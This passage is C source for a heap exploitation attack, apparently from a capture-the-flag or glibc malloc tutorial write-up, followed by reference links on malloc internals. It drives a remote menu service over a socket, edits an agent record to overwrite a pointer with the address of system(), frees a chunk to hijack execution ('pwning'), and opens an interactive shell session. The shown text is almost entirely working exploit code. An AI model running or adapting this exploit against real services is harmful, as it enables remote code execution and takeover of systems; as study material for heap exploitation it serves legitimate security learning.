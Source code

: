 	printf("[+] system function mapped at 0x%"PRIx64"\n", system);
 
	printf("[5] pwning\n");
	agent_edit(3, (char *)&system, 6);
	agent_delete(4);
 
	session();
 
	return 0;
}
 
void agent_create(char *buffer, int len)
{
	select_option("1");
	send_data(buffer, len);
}
 
void agent_create_ex(char c, int len)
{
	char buffer[len];
	memset(buffer, c, len);
	agent_create(buffer, len);
}
 
void agent_select(int agent)
{
	char ag[4];
	int len = snprintf(ag, 4, "%d", agent);
	select_option("2");
	send_data(ag, len);
}
 
void agent_show(int agent, char *buffer, size_t len)
{
	int amt;
	agent_select(agent);
	write(sock, "3\n", 2);
	read(sock, buffer, len);
	amt = read(sock, buffer, len);
	buffer[amt] = '\0';
}
 
void agent_edit(int agent, char *buffer, int len)
{
	agent_select(agent);
	select_option("4");
	send_data(buffer, len);
}
 
void agent_delete(int agent)
{
	agent_select(agent);
	select_option("5");
}
 
void select_option(char *opt)
{
	send_data(opt, 2);
}
 
void send_data(char *input, int len)
{
	char output[1024];
	int amt;
	fd_set fds;
	struct timeval tv = { .tv_sec = 1, .tv_usec = 0 };
 
	write(sock, input, len);
 

[sploitfun]: https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/
[goichon]: http://www.contextis.com/documents/120/Glibc_Adventures-The_Forgotten_Chunks.pdf
[tavis]: https://bugs.chromium.org/p/project-zero/issues/detail?id=96&redir=1
[blackngel]: http://phrack.org/issues/67/8.html#article